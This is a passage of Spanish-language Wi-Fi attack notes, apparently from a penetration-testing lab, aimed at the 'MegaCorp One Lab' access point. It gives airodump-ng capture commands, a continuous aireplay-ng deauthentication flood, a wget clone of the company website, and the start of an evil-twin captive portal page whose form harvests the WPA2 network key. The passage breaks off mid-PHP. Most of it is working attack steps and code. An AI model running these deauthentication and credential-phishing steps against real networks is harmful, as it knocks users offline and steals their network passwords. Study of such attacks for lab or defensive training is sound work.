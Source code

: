 ```bash
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
```bash
wireshark discovery-01.cap
```

>A modo de ejemplo usamos esta salida:

```bash
 BSSID              PWR  Beacons      Data  /s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:FA:47:CD  -51        3        2    0   6  195   WPA2 CCMP   MGT  MegaCorp One
 00:0E:08:75:69:78  -70        2        0    0   1  130   OPN              MegaCorp One Guest
 00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab
```
Ejecutamos el ataque contra "Megacorp One Lab"

### Deautenticamos

```bash
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```
### Creacion del sitio. 

```bash
wget -r -l2 https://www.megacorpone.com
```
Creemos la página de inicio de sesión de nuestro portal cautivo, llamada index.php, en /var/www/html/portal

```bash
<!DOCTYPE html>
<html lang="en">

	<head>
		<link href="assets/css/style.css" rel="stylesheet">
		<title>MegaCorp One - Nanotechnology Is the Future</title>
	</head>
	<body style="background-color:#000000;">
		<div class="navbar navbar-default navbar-fixed-top" role="navigation">
			<div class="container">
				<div class="navbar-header">
					<a class="navbar-brand" style="font-family: 'Raleway', sans-serif;font-weight: 900;" href="index.php">MegaCorp One</a>
				</div>
			</div>
		</div>

		<div id="headerwrap" class="old-bd">
			<div class="row centered">
				<div class="col-lg-8 col-lg-offset-2">
					<?php
						if (isset($_GET["success"])) {
							echo '<h3>Login successful</h3>';
							echo '<h3>You may close this page</h3>';
						} else {
							if (isset($_GET["failure"])) {
								echo '<h3>Invalid network key, try again</h3><br/><br/>';
							}
					?>
				<h3>Enter network key</h3><br/><br/>
				<form action="login_check.php" method="post">
					<input type="password" id="passphrase" name="passphrase"><br/><br/>
					<input type="submit" value="Connect"/>
				</form>
				<?php
```